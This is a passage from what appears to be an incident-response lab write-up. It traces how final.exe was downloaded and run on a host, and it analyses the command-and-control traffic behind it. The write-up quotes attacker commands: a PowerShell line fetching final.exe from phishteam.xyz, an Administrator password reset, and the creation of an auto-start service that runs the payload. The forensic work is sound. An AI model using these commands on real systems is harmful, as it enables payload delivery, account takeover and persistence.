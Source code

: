 Further analysis suggest that it looks like **spf.exe (PID 6828)** is responsible for downloading **final.exe**:
![Pasted image 20240918191755.png](/img/user/x/images/Pasted%20image%2020240918191755.png)
##### final.exe Analysis
---
 Using the PID 3712 as filter in Timeline Explorer shows a parent process **wsmprovhost.exe** which is for Windows Remote Management executing a payload:
 
```bash
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" iwr http://phishteam.xyz/02dcf07/final.exe -outfile C:\ProgramData\final.exe
```

###### DNS Query Analysis
---
**final.exe** connects to the same domain name by filtering for Event ID 22 for DNS queries using the binary name:

![Pasted image 20240918195317.png](/img/user/x/images/Pasted%20image%2020240918195317.png)
It connects to a different port using Wireshark we can use the IP address of `resolvecyber.xyz` and scroll down to find out the second port which is port **8080**:

![Pasted image 20240918201055.png](/img/user/x/images/Pasted%20image%2020240918201055.png)

We can use the same brim filter but replacing the port with 8080 to check all new commands sent from c2 and then exporting it and feeding it to the same powershell command:

```bash
_path=="http" "<replace domain>" id.resp_p==<replace port> | cut ts, host, id.resp_p, uri | sort ts
```

Command output:

![Pasted image 20240918202531.png](/img/user/x/images/Pasted%20image%2020240918202531.png)
**Interesting commands:**
- Two users created shuna and shion
- Attacker added shion as part of the local group administrators.
![Pasted image 20240918203541.png](/img/user/x/images/Pasted%20image%2020240918203541.png)
 - "C:\Windows\system32\net.exe" user Administrator ch4ng3dpassword!
 - "C:\Windows\system32\sc.exe" \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto
